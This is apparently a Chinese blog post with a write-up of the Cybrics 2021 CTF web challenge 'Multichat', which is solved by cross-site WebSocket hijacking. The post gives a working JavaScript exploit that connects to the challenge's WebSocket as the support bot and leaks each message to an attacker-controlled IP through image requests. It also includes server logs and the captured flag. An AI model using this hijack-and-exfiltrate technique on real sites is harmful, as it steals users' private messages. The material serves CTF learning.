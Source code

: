 ```yaml
---
layout: post
title: Cybrics 2021 web wp
date: 2021-07-30 09:56 +0800
last_modified_at: 2021-07-22 09:56:00 +0800
tags: [CTF,Web,Write-up]
toc:  true
---
```

## 0x01 Multichat

关键词：Websocket劫持，服务器日志查看

关键知识点：[WebSocket劫持](https://blog.csdn.net/qq_37788558/article/details/86221146)

大致是一个基于WebSocket实现的在线聊天室，通过输入房间号连接进入Websocket聊天室。而最后的flag是通过support界面中的寻求support让拥有tech support的服务器去访问我们精心设计好的网页，而我们设计的网页则可以伪装tech support的身份向admin发送消息从而获得flag。

（当然最后因为学艺不精最终没有解出，是最终借鉴了Sndav的exp完成的复现。）

而在赛后复现的时候，出现了一直验证码不正确的情况，经过排查后知道需要挂代理才可以验证成功= =。

下面给出exp（借鉴了Sndav哥哥的exp）：

```
<script>
    function appendLog(msg){
        document.write(`<img src=http://110.40.143.221/index.php?a=${escape(msg)}></img>`);
    }
    ws=new WebSocket("ws://multichat-cybrics2021.ctf.su/ws");
    ws.onclose=function (evt){
        var item ="";
        if(evt.code===1003){
            item=`Status:${evt.reason}`;
        }else{
            item="Connection closed.";
        }
        appendLog(item);
    };
    ws.onopen=function(evt){
        appendLog("Connented");
        ws.send("Hey, i forgot the flag. Can you remind me?")
    };
    ws.onmessage=function(evt){
        appendLog(evt.data)
    };
</script>
```

其中将exp挂载在vps上就可以，而index.php可以是任意界面，仅为了便于观察服务器访问记录。

![image-20210730104331777](C:\Gitbook\Import\heart1ess_s_ctf\blogs\assets\Cybrics1.png)

最终在服务器log中获取到flag：

```
161.35.75.1 - - [30/Jul/2021:09:52:51 +0800] "GET /favicon.ico HTTP/1.1" 404 493 "http://110.40.143.221/exp.html" "Mozilla/5.0 (X11; Linux x86_64; rv:85.0) Gecko/20100101 Firefox/85.0"
161.35.75.1 - - [30/Jul/2021:09:52:51 +0800] "GET /index.php?a=Connented HTTP/1.1" 200 215 "http://110.40.143.221/exp.html" "Mozilla/5.0 (X11; Linux x86_64; rv:85.0) Gecko/20100101 Firefox/85.0"
161.35.75.1 - - [30/Jul/2021:09:52:51 +0800] "GET /index.php?a=Sure%2C%20dude.%20The%20flag%20is%20cybrics%7BPwn3d_CR055_51t3_W3850CK3t_h1jACK1n9%7D HTTP/1.1" 200 215 "http://110.40.143.221/exp.html" "Mozilla/5.0 (X11; Linux x86_64; rv:85.0) Gecko/20100101 Firefox/85.0"
161.35.75.1 - - [30/Jul/2021:09:52:51 +0800] "GET /index.php?a=Hey%2C%20i%20forgot%20the%20flag.%20Can%20you%20remind%20me%3F HTTP/1.1" 200 216 "http://110.40.143.221/exp.html" "Mozilla/5.0 (X11; Linux x86_64; rv:85.0) Gecko/20100101 Firefox/85.0"
```

获取到flag为：

```
cybrics{Pwn3d_CR055_51t3_W3850CK3t_h1jACK1n9}
```

